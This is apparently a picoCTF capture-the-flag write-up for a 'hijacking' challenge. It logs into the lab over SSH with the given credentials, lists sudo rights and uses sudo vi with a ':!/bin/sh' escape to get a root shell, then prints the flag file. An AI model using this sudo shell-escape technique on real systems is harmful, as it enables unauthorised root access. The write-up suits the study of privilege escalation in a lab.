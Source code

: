 # solution for hijacking challenge

1- connect to ssh server using these credentials:

``` bash

username:picoctf
password:  JZOjvisd1W
command: ssh picoctf@saturn.picoctf.net -p "port number" 

```

2- lisitng the files .

``` bash

picoctf@challenge:~$ ls -lah
total 16K
drwxr-xr-x 1 picoctf picoctf   20 Mar 25 14:26 .
drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3.7K Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Mar 25 14:26 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py

```

3- checking the commands that we can execute with sudo

```bash

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

```

4- since we can run vi with sudo , we can go for a privileg escalation using the following command:

```bash
vi -c ':!/bin/sh' /dev/null
```

5- now we have a root shell we can read the files in challenge directory using cmd or using the python file

``` bashh
picoctf@challenge:~$ sudo vi -c ':!/bin/sh' /dev/null
[sudo] password for picoctf: 

# cat /challenge/metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}", "username": "picoctf", "password": "JZOjvisd1W"}
```
